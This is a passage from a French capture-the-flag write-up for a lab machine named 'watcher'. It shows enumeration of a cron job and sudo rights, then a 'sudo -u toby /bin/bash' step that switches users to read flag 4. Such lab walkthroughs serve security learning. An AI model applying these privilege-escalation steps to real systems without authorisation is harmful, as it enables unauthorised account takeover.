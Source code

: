 Et voila.
```flag_3.txt
FLAG{lfi_****_*_guy}
```
# Flag 4
Le flag 4 ce trouve dans le dossier **/home/toby**.
Nous devons trouver le moyen de devenir Toby.

On trouve une note:
```note.txt
www-data@watcher:/home/toby$ cat note.txt 
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```
et effectivement, un script s'execute dans une tâche cron :
```
www-data@watcher:/home/toby/jobs$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/1 * * * * mat /home/toby/jobs/cow.sh
```
Le script :
```
www-data@watcher:/home/toby/jobs$ cat cow.sh 
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
```
En regardant les droits sudo, on vois ca :
```
www-data@watcher:/home/toby$ sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```
On peu donc facilement prendre le shell de Toby
```
www-data@watcher:/home/toby/jobs$ sudo -u toby /bin/bash
toby@watcher:~/jobs$ 
```
```flag_4.txt
toby@watcher:~$ cat flag_4.txt 
FLAG{****_life*****}
```